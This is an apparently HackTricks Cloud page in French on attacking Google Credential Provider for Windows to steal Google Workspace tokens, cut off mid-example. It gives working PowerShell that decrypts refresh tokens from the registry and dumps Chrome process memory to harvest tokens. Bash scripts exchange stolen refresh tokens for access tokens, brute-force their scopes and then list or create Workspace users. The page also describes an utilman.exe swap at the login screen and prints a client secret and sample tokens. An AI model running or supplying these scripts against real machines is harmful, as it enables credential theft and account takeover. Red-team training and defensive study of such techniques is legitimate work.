 # GCPW - Google Credential Provider for Windows

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informations de base

Ceci est le système d'authentification unique que Google Workspaces fournit afin que les utilisateurs puissent se connecter à leurs PC Windows en utilisant **leurs identifiants Workspace**. De plus, cela stockera des jetons pour accéder à Google Workspace à certains endroits sur le PC.

{% hint style="success" %}
Notez que [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) est capable de détecter **GCPW**, d'obtenir des informations sur la configuration et **même des jetons**.
{% endhint %}

### GCPW - MitM

Lorsqu'un utilisateur accède à un PC Windows synchronisé avec Google Workspace via GCPW, il devra remplir un formulaire de connexion commun. Ce formulaire de connexion renverra un code OAuth que le PC échangera contre le jeton d'actualisation dans une requête comme : 

{% code overflow="wrap" %}
```http
POST /oauth2/v4/token HTTP/2
Host: www.googleapis.com
Content-Length: 311
Content-Type: application/x-www-form-urlencoded
[...headers...]

scope=https://www.google.com/accounts/OAuthLogin
&grant_type=authorization_code
&client_id=77185425430.apps.googleusercontent.com
&client_secret=OTJgUOQcT7lO7GsGZq2G4IlT
&code=4/0AVG7fiQ1NKncRzNrrGjY5S02wBWBJxV9kUNSKvB1EnJDCWyDmfZvelqKp0zx8jRGmR7LUw
&device_id=d5c82f70-71ff-48e8-94db-312e64c7354f
&device_type=chrome
```
{% endcode %}

De nouvelles lignes ont été ajoutées pour le rendre plus lisible.

{% hint style="info" %}
Il était possible d'effectuer un MitM en installant `Proxifier` sur le PC, en écrasant le binaire `utilman.exe` avec un `cmd.exe` et en exécutant les **fonctionnalités d'accessibilité** sur la page de connexion Windows, ce qui exécutera un **CMD** à partir duquel vous pouvez **lancer et configurer le Proxifier**.\
N'oubliez pas de **bloquer le trafic QUICK UDP** dans `Proxifier` afin qu'il rétrograde vers une communication TCP et que vous puissiez le voir.

Configurez également dans "Services et autres utilisateurs" les deux options et installez le certificat CA Burp dans Windows.
{% endhint %}

De plus, en ajoutant les clés `enable_verbose_logging = 1` et `log_file_path = C:\Public\gcpw.log` dans **`HKLM:\SOFTWARE\Google\GCPW`**, il est possible de stocker certains journaux.

### GCPW - Empreinte

Il est possible de vérifier si GCPW est installé sur un appareil en vérifiant si le processus suivant existe ou si les clés de registre suivantes existent :
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
Dans **`HKCU:\SOFTWARE\Google\Accounts`**, il est possible d'accéder à l'email de l'utilisateur et au **refresh token** chiffré si l'utilisateur s'est récemment connecté.

Dans **`HKLM:\SOFTWARE\Google\GCPW\Users`**, il est possible de trouver les **domains** autorisés à se connecter dans la clé `domains_allowed` et dans les sous-clés, il est possible de trouver des informations sur l'utilisateur comme l'email, la photo, le nom d'utilisateur, les durées de vie des tokens, le handle du token...

{% hint style="info" %}
Le handle du token est un token qui commence par `eth.` et à partir duquel on peut extraire certaines informations avec une requête comme :

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'token_handle=eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg'
# Example response
{
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 12880152
}
```
{% endcode %}

Il est également possible de trouver le handle du token d'un access token avec une requête comme :

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'access_token=<access token>'
# Example response
{
"issued_to": "77185425430.apps.googleusercontent.com",
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 1327,
"access_type": "offline",
"token_handle": "eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg"
}
```
{% endcode %}

Afaik, il n'est pas possible d'obtenir un refresh token ou un access token à partir du token handle.
{% endhint %}

De plus, le fichier **`C:\ProgramData\Google\Credential Provider\Policies\<sid>\PolicyFetchResponse`** est un json contenant les informations de différents **settings** comme `enableDmEnrollment`, `enableGcpAutoUpdate`, `enableMultiUserLogin` (si plusieurs utilisateurs de Workspace peuvent se connecter à l'ordinateur) et `validityPeriodDays` (nombre de jours pendant lesquels un utilisateur n'a pas besoin de se réauthentifier directement avec Google).

## GCPW - Obtenir des Tokens

### GCPW - Tokens de Rafraîchissement du Registre

Dans le registre **`HKCU:\SOFTWARE\Google\Accounts`**, il pourrait être possible de trouver certains comptes avec le **`refresh_token`** crypté à l'intérieur. La méthode **`ProtectedData.Unprotect`** peut facilement le déchiffrer.

<details>

<summary>Obtenir les données de <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> et déchiffrer les refresh_tokens</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

Exemple de sortie :

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

Comme expliqué dans [**cette vidéo**](https://www.youtube.com/watch?v=FEQxHRRP\_5I), si vous ne trouvez pas le jeton dans le registre, il est possible de modifier la valeur (ou de la supprimer) depuis **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** et la prochaine fois que l'utilisateur accède à l'ordinateur, il devra se reconnecter et le **jeton sera stocké dans le registre précédent**.

### GCPW - Jetons de rafraîchissement de disque

Le fichier **`%LocalAppData%\Google\Chrome\User Data\Local State`** stocke la clé pour déchiffrer les **`refresh_tokens`** situés à l'intérieur des **profils Google Chrome** de l'utilisateur comme :

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

Il est possible de trouver du **code C#** accédant à ces jetons de manière déchiffrée dans [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe).

De plus, le chiffrement peut être trouvé dans ce code : [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

On peut observer que AESGCM est utilisé, le jeton chiffré commence par une **version** (**`v10`** à ce moment), puis il [**a 12B de nonce**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42), et ensuite il a le **texte chiffré** avec un **mac final de 16B**.

### GCPW - Dumping des jetons de la mémoire des processus

Le script suivant peut être utilisé pour **dump** chaque processus **Chrome** en utilisant `procdump`, extraire les **chaînes** et ensuite **rechercher** des chaînes liées aux **jetons d'accès et de rafraîchissement**. Si Chrome est connecté à un site Google, certains **processus stockeront des jetons de rafraîchissement et/ou d'accès en mémoire !**

<details>

<summary>Dump des processus Chrome et recherche de jetons</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

J'ai essayé la même chose avec `gcpw_extension.exe`, mais il n'a trouvé aucun jeton.

Pour une raison quelconque, **certains jetons d'accès extraits ne seront pas valides (bien que certains le soient)**. J'ai essayé le script suivant pour supprimer des caractères un par un afin d'essayer d'obtenir le jeton valide à partir du dump. Cela ne m'a jamais aidé à en trouver un valide, mais cela pourrait, je suppose :

<details>

<summary>Vérifier le jeton d'accès en supprimant des caractères un par un</summary>
```bash
#!/bin/bash

# Define the initial access token
access_token="ya29.a0AcM612wWX6Pe3Pc6ApZYknGs5n66W1Hr1CQvF_L_pIm3uZaXWisWFabzxheYCHErRn28l2UOJuAbMzfn1TUpSKqvYvlhXJpxQsKEtwhYXzN2BZdOQNji0EXfF7po1_0WaxhwqOiE0CFQciiL8uAmkRsoXhq9ekC_S8xLrODZ2yKdDR6gSFULWaiIG-bOCFx3DkbOdbjAk-U4aN1WbglUAJdLZh7DMzSucIIZwKWvBxqqajSAjrdW0mRNVN2IfkcVLPndwj7fQJV2bQaCgYKAbQSAQ4SFQHGX2MiPuU1D-9-YHVzaFlUo_RwXA0277"

# Define the URL for the request
url="https://www.googleapis.com/oauth2/v1/tokeninfo"

# Loop until the token is 20 characters or the response doesn't contain "error_description"
while [ ${#access_token} -gt 20 ]; do
# Make the request and capture the response
response=$(curl -s -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=$access_token" $url)

# Check if the response contains "error_description"
if [[ ! "$response" =~ "error_description" ]]; then
echo "Success: Token is valid"
echo "Final token: $access_token"
echo "Response: $response"
exit 0
fi

# Remove the last character from the token
access_token=${access_token:0:-1}

echo "Token length: ${#access_token}"
done

echo "Error: Token invalid or too short"
```
</details>

### GCPW - Génération de jetons d'accès à partir de jetons d'actualisation

En utilisant le jeton d'actualisation, il est possible de générer des jetons d'accès en utilisant celui-ci ainsi que l'ID client et le secret client spécifiés dans la commande suivante :
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Scopes

{% hint style="info" %}
Notez qu'il n'est pas possible de demander un scope pour le token d'accès même en ayant un refresh token, car vous ne pouvez demander que les **scopes pris en charge par l'application où vous générez le token d'accès**.

De plus, le refresh token n'est pas valide dans toutes les applications.
{% endhint %}

Par défaut, GCPW n'aura pas accès en tant qu'utilisateur à tous les scopes OAuth possibles, donc en utilisant le script suivant, nous pouvons trouver les scopes qui peuvent être utilisés avec le `refresh_token` pour générer un `access_token` :

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Et voici le résultat que j'ai obtenu au moment de l'écriture :

<details>

<summary>Portées par force brute</summary>
```
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
</details>

De plus, en vérifiant le code source de Chromium, il est possible de [**trouver ce fichier**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google\_apis/gaia/gaia\_constants.cc#L24), qui contient **d'autres portées** qui peuvent être supposées **et qui n'apparaissent pas dans la liste précédemment brute-forcée**. Par conséquent, ces portées supplémentaires peuvent être supposées :

<details>

<summary>Portées supplémentaires</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

Notez que le plus intéressant est peut-être :
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
Cependant, j'ai essayé d'utiliser cette portée pour accéder à gmail ou lister des groupes et cela n'a pas fonctionné, donc je ne sais pas à quel point cela est encore utile.

**Obtenez un jeton d'accès avec toutes ces portées**:

<details>

<summary>Script Bash pour générer un jeton d'accès à partir de refresh_token avec toutes les portées</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

Quelques exemples utilisant certains de ces scopes :

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
